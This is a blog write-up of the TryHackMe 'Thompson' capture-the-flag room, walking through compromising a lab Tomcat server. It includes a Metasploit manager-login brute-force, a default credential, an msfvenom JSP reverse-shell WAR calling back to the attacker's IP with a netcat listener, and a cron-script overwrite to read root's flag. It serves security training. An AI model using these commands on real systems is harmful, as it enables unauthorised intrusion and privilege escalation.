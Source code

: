 ```yaml
---
layout: post
permalink: /posts/thm/thompson
title: "THM write-up: Thompson"
date: 2020-08-08 21:40
tags: tryhackme CTF recon privilege_escalate reverse_shell tomcat
description: "Today, I'm going to show you a Tomcat related CTF challenge. This is my fifth boo2root write-up by bsides Guatemala."
---
```


![titlecard](/assets/images/THM/2020-08-08-thompson/1.png)

[Link: https://tryhackme.com/room/bsidesgtthompson](https://tryhackme.com/room/bsidesgtthompson)

Another day, another tryhackme CTF write-up. Today, I"m going to show you a Tomcat related CTF challenge. This is my fifth boo2root series write-up by bsides Guatemala and this is the last challenge of the series. I will try to explain this challenge with 2 different CVEs and its failure and success. Let's start the challenge, shall we?

## Task 1: Capture the flags

Same old bsides Guatemala style CTF challenege, you CTF, you win. That's it.

### Task 1-1: Capture user's flag

First and foremost, launch your nmap scanner with the following command.

```
nmap -A -v <MACHINE IP>
```

![nmap](/assets/images/THM/2020-08-08-thompson/2.png)

After that, the Nmap will dig out tree open ports specifically Port 22 (SSH), Port 8009 (ajp) and Port 8080 (Tomcat server). I 100% confirm that the port 8009 is related to the tomcat (port 8080). The proof of concept is inside [this article](https://ionize.com.au/exploiting-apache-tomcat-port-8009-using-apache-jserv-protocol/). There is no point to exploit Port 8009. Also, we are going to hold port 22 since we do not have any clue. So,  Port 8080 is the only way in.

![tomcat](/assets/images/THM/2020-08-08-thompson/3.png)

A Tomcat server with version 8.5.5. By searching the Internet, I came across three potential CVE number that is vulnerable to Tomcat 8.5.5. The CVE number are:

- CVE-2019-0232
- CVE-2017-12617

#### 1) CVE-2019-0232

This the most recent CVE available for Tomcat. To exploit the CVE number, the Tomcat must have CGI enable. However, checking the /cgi-bin/ return the following result.

![404](/assets/images/THM/2020-08-08-thompson/4.png)

It is a failure because of the /cgi-bin/ is not enabled.

#### CVE-2017-12617

This exploitation is known as WAR backdoor. There is numerous proof of concept of this vulnerability such as [this](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/) and [this](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/). In order to use this exploit, one must know the login credential of the manager page.

![login](/assets/images/THM/2020-08-08-thompson/5.png)

I launch my Metasploit to brute-force the manager login credential by using the following command line.

```
msf> use auxiliary/scanner/http/tomcat_mgr_login
msf > set RHOST <Machine IP>
msf > set STOP_ON_SUCCESS true
msf > run
```

Make sure you change the <machine IP> to the target IP before the run.

![metasploit](/assets/images/THM/2020-08-08-thompson/6.png)

That is weird! The Metasploit brute-force end up a failure. This is where the challenge started to give me a headache. I try to exploit port 8009, brute-forcing port 22, PUT a .jsp using burp suite, directory brute-forcing using gobuster, tried to exploit the .jsp file within the /examples/ directory, perform a web scan using OWASP Zap scanner. NONE of them work!!!!!!!!!!!!!!!!!!!!!. Before I going to give up this challenge, how about using the Nikto?

```
nikto -h <Machine IP>
```

Well, the credential is 'tomcat:s3cret'. Wait a sec, the credential is indeed listed inside the Metasploit. **Moral of the story, always use multiple tools to perform pentesting, somehow we will miss the important information.** Alright, let's move on! To login into the manager dashboard, make sure manually enter the following URL.

```
http://<Machine IP>/manager/html
```

I tried to use /manager or click the manager tab on the front page. It doesn't allow me to log in using the provided credentials. If you make it, you should see the following dashboard. 

![login](/assets/images/THM/2020-08-08-thompson/7.png)

This is where we can perform the CVE by uploading the WAR file.

![WAR](/assets/images/THM/2020-08-08-thompson/8.png)

Before that, we need to generate a reverse shell using msfvenom. 

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Tunnel IP> LPORT=4444 -f war > shell.war
```

Make sure you change the [tunnel IP](https://tryhackme.com/access). After you have create the reverse shell file, open up your netcat listener.

```
nc -lvnp 4444
```

Deploy the WAR file and proceed to the following directory.

![war deploy](/assets/images/THM/2020-08-08-thompson/9.png)

![reverse success](/assets/images/THM/2020-08-08-thompson/10.png)

Ta-da, you have created a reverse shell on the targeted machine. Grab the user's flag now.

![user flag](/assets/images/THM/2020-08-08-thompson/11.png)

### Task 1-3: Capture root's flag

What a frustrating challenge for me ^^. Now, it is time to capture the root's flag. The first thing we need to do is checking jack's folder.

![2 files](/assets/images/THM/2020-08-08-thompson/12.png)

Let's check the id.sh and test.txt files.

![read file](/assets/images/THM/2020-08-08-thompson/13.png)

We got the id command response from the test.txt file while the id.sh is a batch file supposedly executed by the root user. I highly suspect this is the work by cronjob. Let's see what is inside the /etc/crontab.

![crontab](/assets/images/THM/2020-08-08-thompson/14.png)

I was right! We are going to pull the flag from the root user by overwriting the id.sh using the following command.

```
echo 'cp /root/root.txt /home/jack/root.txt' > id.sh
```

Wait for a minute and you will see the following result. 

![root text](/assets/images/THM/2020-08-08-thompson/15.png)

Pulling success! 

Congratulation, you are now rooted in the machine using cronjob.

## Conclusion

That's it, the final boot2root by bsides Guatemala series. I would like to thanks user stuxnet who created the amazing CTF challenge. Keep it up! Once again, hope you enjoy the write-up. Until next time ;)